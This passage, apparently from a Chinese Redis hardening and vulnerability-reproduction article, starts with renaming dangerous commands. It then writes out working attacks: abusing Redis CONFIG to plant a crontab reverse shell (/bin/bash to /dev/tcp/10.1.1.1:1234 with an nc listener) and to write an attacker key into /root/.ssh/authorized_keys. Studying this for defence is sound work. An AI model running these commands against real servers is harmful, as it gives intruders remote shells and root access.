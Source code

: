 ### 1.5、【可选】设置rename-command
把危险命令重命名，增加一些难度，作为可选方式
```bash
rename-command KEYS "kk"
rename-command FLUSHALL "ff"
rename-command SHUTDOWN "ss"
rename-command CONFIG "cc"
```

## 2、漏洞复现
### 2.1 利用crontab反弹shell
登录redis设置
```bash
#redis-cli -h 10.1.1.2 -a 123456 //如果没有密码，不用添加-a参数
10.1.1.2:6379> config set dir /var/spool/cron
OK
10.1.1.2:6379> config set dbfilename root
OK
10.1.1.2:6379> set xxoo "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/10.1.1.1/1234 0>&1\n\n"
10.1.1.2:6379>save
OK
```
不登录redis设置
```bash
#echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/10.1.1.1/1234 0>&1\n\n"|redis-cli -h 192.168.118.129 -a 123456 -x set 1
#redis-cli -h 192.168.118.129 -a 123456 config set dir /var/spool/cron/
#redis-cli -h 192.168.118.129 -a 123456 config set dbfilename root
#redis-cli -h 192.168.118.129 -a 123456 save
```
在 10.1.1.1上执行
```bash
#nc -l -p 1234 -vv //监听1234端口
```

### 2.2 利用写authorized_keys实现无密码登录
```bash
127.0.0.1:6379>flushall
OK

127.0.0.1:6379>config set dir /root/.ssh/
OK

127.0.0.1:6379>config set dbfilename authorized_keys
OK

127.0.0.1:6379>set xxoo "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDxna91qSLsy9sbYSZNYMpe0root@localhost.localdomain\n\n"
OK

127.0.0.1:6379>save
OK
```
然后ssh方式就可以登录这台服务器了
